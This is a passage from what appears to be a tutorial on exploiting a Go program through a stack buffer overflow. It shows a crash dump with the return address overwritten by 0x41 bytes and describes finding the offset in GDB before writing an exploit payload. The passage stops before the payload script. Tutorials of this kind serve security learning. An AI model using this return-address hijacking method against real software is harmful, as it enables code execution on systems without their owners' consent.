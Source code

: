 goroutine 1 [running]:
runtime.throw(0x4c1077, 0x5)
	/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000110f50 sp=0xc000110f20 pc=0x42ebd2
runtime.sigpanic()
	/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000110f80 sp=0xc000110f50 pc=0x4429dc
runtime: unexpected return pc for main.main called from 0x4141414141414141
stack: frame=sp:0xc000110f80, fp:0xc000110f88 stack=[0xc000110000,0xc000111000)
000000c000110e80:  0000000000000001  0000000000000000
000000c000110e90:  000000c000110ed0  0000000000430404 <runtime.gwrite+164>
000000c000110ea0:  0000000000000002  00000000004c0dd6
000000c000110eb0:  0000000000000001  0000000000000001
000000c000110ec0:  000000c000110f3d  0000000000000003
000000c000110ed0:  000000c000110f20  0000000000430c28 <runtime.printstring+120>
000000c000110ee0:  000000000042ed97 <runtime.fatalthrow+87>  000000c000110ef0
000000c000110ef0:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
000000c000110f00:  000000000042ebd2 <runtime.throw+114>  000000c000110f20
000000c000110f10:  000000c000110f40  000000000042ebd2 <runtime.throw+114>
000000c000110f20:  000000c000110f28  0000000000458500 <runtime.throw.func1+0>
000000c000110f30:  00000000004c1077  0000000000000005
000000c000110f40:  000000c000110f70  00000000004429dc <runtime.sigpanic+972>
000000c000110f50:  00000000004c1077  0000000000000005
000000c000110f60:  4141414141414141  0000000000000000
000000c000110f70:  4141414141414141  00000000004925d1 <main.main+177>
000000c000110f80: <4141414141414141 >4141414141414141
000000c000110f90:  4141414141414141  4141414141414141
000000c000110fa0:  4141414141414141  4141414141414141
000000c000110fb0:  4141414141414141  4141414141414141
000000c000110fc0:  4141414141414141  4141414141414141
000000c000110fd0:  4141414141414141  4141414141414141
000000c000110fe0:  4141414141414141  4141414141414141
000000c000110ff0:  4141414141414141  4141414141414141
main.main()
	/tmp/code-injection/main.go:28 +0xb1 fp=0xc000110f88 sp=0xc000110f80 pc=0x4925d1


In the resulting stack trace, we can even see a lot of 0x41 values, which is the ASCII value for the letter A.

It is time to debug the program with GDB and see where the instruction pointer actually points to after the function
return. This way, we can adjust the number of bytes that we need to scramble into the program before we can put our
exploit payload, overwriting the return address on the stack.

To do this, I create a Python script to produce the exploit payload:

